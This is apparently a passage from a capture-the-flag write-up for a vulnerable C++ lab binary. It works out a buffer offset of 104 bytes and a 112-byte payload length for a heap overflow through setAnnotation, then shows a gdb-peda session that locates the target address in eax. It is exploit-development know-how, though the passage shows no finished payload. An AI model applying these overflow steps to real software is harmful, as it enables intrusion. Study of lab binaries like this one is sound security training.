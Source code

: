 ![](Ressources/pattern_gen.png)

So the offset of the buffer is of `104`.

From that we can deduce the length the payload must have:

`104` (buffer size) + `4` (buffer address) + `4` (overwritten address) = `112` of payload length

## address of eax

1. run gdb on the binary
2. breakpoint after the call to the method
3. check address of `eax`

```gdb
gdb-peda$ break *main+136
Breakpoint 1 at 0x804867c
gdb-peda$ run lol
[----------------------------------registers-----------------------------------]
EAX: 0x804a00c --> 0x6c6f6c ('lol')                   <-- Address of eax is 0x804a00c
EBX: 0x804a078 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
ECX: 0x6f6c ('lo')
EDX: 0x804a00f --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0xbffffc48 --> 0x0
ESP: 0xbffffc20 --> 0x804a008 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
EIP: 0x804867c (<main+136>:	mov    eax,DWORD PTR [esp+0x10])
EFLAGS: 0x200287 (CARRY PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048670 <main+124>:	mov    eax,DWORD PTR [esp+0x14]
   0x8048674 <main+128>:	mov    DWORD PTR [esp],eax
   0x8048677 <main+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
=> 0x804867c <main+136>:	mov    eax,DWORD PTR [esp+0x10]
   0x8048680 <main+140>:	mov    eax,DWORD PTR [eax]
   0x8048682 <main+142>:	mov    edx,DWORD PTR [eax]
   0x8048684 <main+144>:	mov    eax,DWORD PTR [esp+0x14]
   0x8048688 <main+148>:	mov    DWORD PTR [esp+0x4],eax
[------------------------------------stack-------------------------------------]
0000| 0xbffffc20 --> 0x804a008 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
0004| 0xbffffc24 --> 0xbffffe1f --> 0x6c6f6c ('lol')
0008| 0xbffffc28 --> 0xbffffcf0 --> 0xbffffe23 ("TERM=alacritty")
0012| 0xbffffc2c --> 0xb7d79e55 (<__cxa_atexit+53>:	add    esp,0x18)
0016| 0xbffffc30 --> 0x804a078 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
0020| 0xbffffc34 --> 0x804a008 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
0024| 0xbffffc38 --> 0x804a078 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
0028| 0xbffffc3c --> 0x804a008 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
```